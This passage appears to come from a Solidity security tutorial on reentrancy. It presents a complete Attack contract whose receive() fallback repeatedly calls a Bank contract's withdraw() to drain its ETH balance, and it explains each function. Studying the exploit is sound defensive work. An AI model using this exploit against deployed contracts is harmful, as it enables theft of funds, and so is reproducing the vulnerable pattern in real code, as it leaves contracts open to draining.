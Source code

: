```solidity
receive() external payable {
    bank.withdraw();
}
```

Below, let's take a look at the attack contract. Its logic is very simple, which is to repeatedly call the `withdraw()` function of the `Bank` contract through the `receive()` fallback function. It has `1` state variable `bank` to record the address of the `Bank` contract. It includes `4` functions:

- Constructor: Initializes the `Bank` contract address.
- `receive()`: The fallback function triggered when receiving ETH, which calls the `withdraw()` function of the `Bank` contract again in a loop for withdrawal.
- `attack()`: The attack function that first deposits funds into the `Bank` contract using the `deposit()` function, then initiates the first withdrawal by calling `withdraw()`. After that, the `withdraw()` function of the `Bank` contract and the `receive()` function of the attack contract will be called in a loop, emptying the ETH balance of the `Bank` contract.
- `getBalance()`: Retrieves the ETH balance in the attack contract.

```solidity
contract Attack {
    Bank public bank; // Address of the Bank contract

    // Initialize the address of the Bank contract
    constructor(Bank _bank) {
        bank = _bank;
    }
    
    // Callback function used for reentrancy attack on the Bank contract, repeatedly calling the target's withdraw function
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // Attack function, msg.value should be set to 1 ether when calling
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // Get the balance of this contract
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## `Remix` Demonstration
